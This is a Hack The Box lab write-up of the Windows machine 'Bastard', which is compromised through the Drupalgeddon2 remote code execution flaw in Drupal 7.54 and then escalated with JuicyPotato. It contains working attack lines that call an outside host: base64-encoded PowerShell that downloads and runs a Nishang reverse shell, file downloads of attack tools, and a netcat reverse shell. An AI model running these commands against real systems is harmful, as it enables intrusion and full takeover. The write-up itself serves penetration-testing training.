 # Windows

## Enumeration

### Port 80

* Drupal 7.54, 2017-02-01

![](../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_drupal\_version.png)

### RCE

{% embed url="https://github.com/dreadlocked/Drupalgeddon2" %}

```
./drupalgeddon2.rb http://bastard.htb/
.
.
.
[*] Dropping back to direct OS commands
drupalgeddon2>> whoami
nt authority\iusr
drupalgeddon2>> systeminfo

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46 ��
System Boot Time:          4/4/2022, 6:15:32 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                          [01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
                          [02]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.584 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.611 MB
Virtual Memory: In Use:    484 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                          [01]: Intel(R) PRO/1000 MT Network Connection
                                Connection Name: Local Area Connection
                                DHCP Enabled:    Yes
                                DHCP Server:     10.129.0.1
                                IP address(es)
                                [01]: 10.129.123.241
```

### What is drupalgeddon?

{% embed url="https://cyware.com/news/what-is-drupalgeddon-and-what-kind-of-targets-does-it-go-after-78f558ec" %}

{% embed url="https://www.rapid7.com/blog/post/2018/04/27/drupalgeddon-vulnerability-what-is-it-are-you-impacted" %}

`$ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 ./ps_tcp.ps1`

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.61 -Port 4444
```

## Shell

The below is less known to AV but did not work because the powershell version on the machine is old

```powershell
powershell -c 'IEX(IWR http://10.10.14.61/ps_tcp.ps1 -UseBasicParsing)'
```

We have to encode our command posisbly due to quotes and bad characters. Powershell accepts base64 encoded commands. We had to convert UTF-8 to 16-bit little indian encoding

```bash
echo -n 'IEX (New-Object Net.WebClient).DownloadString("http://10.10.14.61/ps_tcp.ps1")' | iconv -f ASCII -t UTF-16LE | base64 | tr -d "\n"

SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4ANgAxAC8AcABzAF8AdABjAHAALgBwAHMAMQAiACkA 
```

```powershell
drupalgeddon2>> powershell.exe -nop -exec bypass -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4ANgAxAC8AcABzAF8AdABjAHAALgBwAHMAMQAiACkA
```

![](../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_setup\_listener.png)

![](../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_gained\_shell.png)

![](<../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_whoami (1).png>)

## Privledge Escalation

{% embed url="https://youtu.be/eLNYc-1ScdU?t=9033" %}

![](<../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_Pasted image 20220404181827.png>)

{% embed url="https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505" %}

{% embed url="https://github.com/ohpe/juicy-potato" %}

```powershell
(New-Object Net.WebClient).downloadFile('http://10.10.14.61/JuicyPotato.exe','JuicyPotato.exe')
```

```powershell
(New-Object Net.WebClient).downloadFile('http://10.10.14.61/nc64.exe','nc64.exe')
```

{% embed url="http://ohpe.it/juicy-potato/CLSID" %}

Any with NT AUTHORITY\SYSTEM will work although it's trial and error to see which one will work&#x20;

Impersonating a SYSTEM process with a different service

```bash
.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\inetpub\drupal-7.54\nc64 -e cmd.exe 10.10.14.61 8444" -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}"
```

![](<../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_Pasted image 20220404190117.png>)

![](../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_whoami\_system.png)

## Flags

![](<../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_userflag (1).png>)

![](../../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_HTB\_attachments\_rootflag.png)
